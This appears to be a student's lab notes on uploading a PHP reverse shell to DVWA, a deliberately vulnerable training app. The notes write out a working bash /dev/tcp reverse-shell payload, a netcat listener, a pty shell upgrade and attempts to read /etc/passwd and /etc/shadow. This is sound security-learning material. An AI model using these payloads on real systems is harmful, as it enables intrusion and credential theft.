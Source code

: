 # Reverse Shell with PHP on DVWA
I wanted to use the default `reverse.php` file for accessing the DVWA server shell in my terminal, but was not able to find one so i created my own `reverse.php`
## Reverse Shell Setup
```bash
nano reverse.php
#then added the content
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.15/4444 0>&1'");
```
breakdown of the code:
- **exec**: Executes the command on the server.
- **/bin/bash -c**: Runs the command using Bash.
- **bash -i**: Starts an interactive shell session.
- **>& /dev/tcp/10.0.2.15/4444**: Redirects stdout and stderr to the attacker's IP and port.
- **0>&1**: Redirects stdin to the same source.

## Listener Setup
Before uploading the reverse shell:
```bash
nc -nlvp 4444
```
This listens for incoming connections on port 4444.

##### then i uploaded the `reverse.php` file on DVWA's upload section.
As soon as I accessed it, i saw a shell in my terminal.

## Setting Up Shell
To make the shell more interactive (clearer output, real formatting, command-line behavior), I ran:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")';
```
and then:
```bash
TERM=xterm
```
This makes the shell more terminal like.

## further:-
after doing all this I ran some basic commands like:
- whoami
- hostname
- ls 
- ls -la

the output was:
![Basic commands DVWA shell output](/Day-5-notes/Screenshots/Basic-commands-on-DVWA-shell.png)

opened some files like:
```bash
cat /etc/passwd
cat /etc/shadow
```
- I did not have permission to open shadow file, but in passwd file, it was the same output as we got from LFI inclusion of /etc/passwd.
![reverse shell etc passwd output](/Day-5-notes/Screenshots/etc-passwd-reverse-shell.png)
